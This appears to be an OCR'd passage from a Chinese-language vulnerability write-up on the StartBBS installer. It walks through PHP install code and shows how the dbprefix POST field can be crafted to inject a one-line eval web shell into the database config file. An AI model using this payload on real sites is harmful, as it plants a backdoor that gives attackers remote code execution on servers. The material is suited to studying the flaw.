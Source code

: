 ```php

                    //保存config文件

                    if($sub_folder){

                        $this->config->update('myconfig','sub_folder', $sub_folder);

                    }

                    $encryption_key = md5(uniqid());

                    if($encryption_key){

                        $this->config->update('myconfig','encryption_key', $encryption_key);

                    }

                    $data['msg3']="保存配置文件完成！";

                    touch(FCPATH.'install.lock'); 

                    $data['msg4']="創建鎖定安裝文件install.lock成功";

                    $data['msg5']="安装startbbs成功！";

        }

        $this->load->view('install',$data);

    }
```

當步驟函數的參數為3時，就執行安裝函數_install_do（），這個函數裡初始化了數據庫，並把數據庫配置文件寫入了"/app/config/database.php"。於是，我們可以構造一下數據包直接把一句話寫入到這個配置文件裡。

我們看到,這個函數接收了許多post數據:

```php
　　$dbhost = $this->input->post('dbhost');
　　$dbport = $this->input->post('dbport');
　　$dbname = $this->input->post('dbname');
　　$dbuser = $this->input->post('dbuser');
　　$dbpwd = $this->input->post('dbpwd')?$this->input->post('dbpwd'):'';
　　$dbprefix = $this->input->post('dbprefix');
　　$userid = $this->input->post('admin');
　　$pwd = md5($this->input->post('pwd'));
　　$email = $this->input->post('email');
　　$sub_folder = '/'.$this->input->post('base_url').'/';
```

其中`dbhost`、`dbport`、`dbname`、`dbuser`、`dbpwd`都不能隨便亂寫，亂寫的話安裝就會出錯，而`userid`、`pwd`、`email`、`sub_folder`都是寫入數據庫的，不寫入配置文件。所以就剩下`dbprefix`了，所以我們可以這樣構造這個字段：
```php
dbprefix=sb_';@eval ($_POST[101]);$xxx='
```
